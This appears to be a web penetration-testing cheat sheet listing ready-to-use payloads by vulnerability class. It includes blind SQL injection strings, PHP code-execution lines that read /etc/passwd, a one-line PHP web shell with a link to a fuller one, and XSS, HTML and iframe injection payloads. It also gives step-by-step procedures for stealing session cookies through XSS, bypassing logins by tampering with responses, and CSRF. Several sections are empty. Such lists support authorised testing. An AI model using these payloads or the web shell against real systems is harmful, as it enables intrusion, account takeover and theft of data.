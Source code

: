 ## Time Based Blind SQL Injection:
```
'(select * from (select(sleep(10)))a)
,(select*from(select(sleep(15)))a)
';WAITFOR DELAY '0:0:30'--
```
## Boolean Based Blind SQL Injection:
```
'2 OR 1=1
'2 AND 1=1
```
## Local File Inclusion (LFI):
```


```
## Remote Code Execution (RCE):
```
<?php system("cat /etc/passwd");?>
<?php system("id");?>
<?php echo phpinfo(); ?>
<?php include 'C:\Windows\System32\drivers\etc\hosts';?>
```
## Malicious File Upload (Shell Execution):
```
<?php system($_GET['cmd']); ?>

https://github.com/hackerhijeck/For_Me/blob/main/Web_Shell.php
```
## Application is Vulnerable to Reverse Web shell (Shell Execution):
```
https://www.revshells.com
```
## File Upload Bypass:
```
https://book.hacktricks.xyz/pentesting-web/file-upload
```
## Session Hijacking:
```
Step1: Using xss hunter payload, execute the payload in logged in user account.
Step2: After got the cookies in the XSS Hunter.
Step3: Copy the cookies and before login paste and change into the cookies and refresh it.
```
## Session Fixation in The Application:
```
Step1: Before login, Check the cookie or session token.
Step2: Then After login, Check the cookie or session token, If same token or cookies is there.
```
## URL Redirection in the application:
##### Endpoint Pattern:
```
/?url=
/?redirect_url:
/?checkout_url=
/?login_url=
/?redirect_uri=
```
## Reflected Cross Site Scripting Attack:
```
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg/onload=alert(1)>
javascript:alert(1)//
"onmouseover=alert(1);
<x onclick=alert(1)>click!
```
## HTML Injection
```
<h1>HTML_Injection</h1>
<marquee>HTML_Injection</marquee>
```
## Link Injection:
```
<a href="https://www.intelliroot.com">ClickMe</a>
```
## Iframe Injection:
```
<iframe src="https://www.intelliroot.com"></iframe>
```
## Blind Cross Site Scripting Attack:
```
XSS Hunter payload
```
## Admin/User Login Authentication Bypass Using Success Response:
#### Process 1:
```
Step1: Login panel capture the request and Do intercept and click to respnse to this request and then forward the request
Step2: If Response code 404 Forbidon then change to 200 OK. and then forward the request.
```
#### Process 2:
```
Step1: In login panel first logged in a valid user and capture the request and "Do intercept" and click to "response to 
        this request" and then forward the request.
Step2: Copy the 200 OK reponse data and save it any txt format.
Step3: Now try to unathorized user, in login panel capture the request and "Do intercept" and click to "response to 
        this request" and then forward the request.
Step4: In Response data, paste the data which copied from a valid user, and then forward the request.
```
## Cross Site Request Forgery (CSRF):
```
Step1: Capture any POST data and click generate CSRF poc, save it into the html file.
Step2: Change the POST data to anything you want.
Step3: Now open into the browser and click submit.
```
### Account Takeover through forget password:
```
https://infosecwriteups.com/all-about-password-reset-vulnerabilities-3bba86ffedc7
```
### No Session Termination After Password Change:
```
Step1: Login as a user, After logged in capture a request of any functionality and get into the Repeater and send to Response.
Step2: Wait minimum 40,50 minutes, Do not loggout the account.
Step3: After complete the time, then again click send to the reponse in the Burpsuite.
Step4: If its working properly, then it No Session Termination Vulnerability.
```
### Concurrent Logins with the Same Username in admin/user account:
```

```
### Trace method Enabled:
```
```
### Full path disclosure:
```

```
### Improper Input Validation in the Application:
```
<script>alert(1)</script>
<h1>Test</h1>
```
### Client side validation bypass of email and phone number verification:
```

```
### Application is Vulnerable to Clickjacking Attacks:
```
<!DOCTYPE html>
<html>
<head>
<title>This is Clickjacking Test Page!</title>
</head>
<body>
<iframe src="https://url.com" width="500" height="500"></iframe>
</body>
</html>
```
### Last Login Time Not Implemented in the Application:
```

```
